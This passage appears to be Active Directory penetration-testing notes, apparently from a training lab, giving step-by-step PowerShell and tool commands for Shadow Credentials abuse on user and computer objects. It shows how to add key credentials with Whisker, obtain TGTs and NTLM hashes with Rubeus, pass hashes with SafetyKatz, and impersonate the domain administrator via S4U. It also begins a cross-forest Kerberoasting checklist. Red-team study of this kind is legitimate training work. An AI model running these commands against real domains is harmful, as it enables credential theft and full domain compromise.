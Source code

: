 ##### Abusing User Object

```powershell
# 1. Enumerate the permissions
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}

# 2. Add the Shadow Credential
Whisker.exe add /target:supportXuser

# 3. Using PowerView, see if the Shadow Credential is added.
Get-DomainUser -Identity supportXuser

# 4. Request the TGT by leveraging the certificate
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap

# 5. Inject the TGT in the current session or use the NTLM hash
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```

##### Abusing Computer Object

```powershell
# 1. Enumerate the permissions
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "mgmtadmin"}

# 2. Add the Shadow Credentials
SafetyKatz.exe "sekurlsa::pth /user:mgmtadmin /domain:us.techcorp.local /aes256:328... /run:cmd.exe" "exit"
Whisker.exe add /target:us-helpdesk$

# 3. Using PowerView, see if the Shadow Credential is added
Get-DomainComputer -Identity us-helpdesk

# 4. Request the TGT by leveraging the certificate
Rubeus.exe asktgt /user:us-helpdesk$ /certificate:MIIJ0A... /password:"ViGFo..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show

# 5. Request and Inject the TGS by impersonating the user
Rubeus.exe s4u /dc:us-dc.us.techcorp.local /ticket:doIGk... /impersonateuser:administrator /ptt /self /altservice:cifs/us-helpdesk
```

# IX. Cross Forest Attacks

### Kerberoast

##### Methodology/Steps

>   1.  First find all the SPN accounts
>   2.  Request a TGS for the user who has forest trust
>   3.  Crack the ticket using JTR
>   4.  Using PowerShell request a TGS across trust
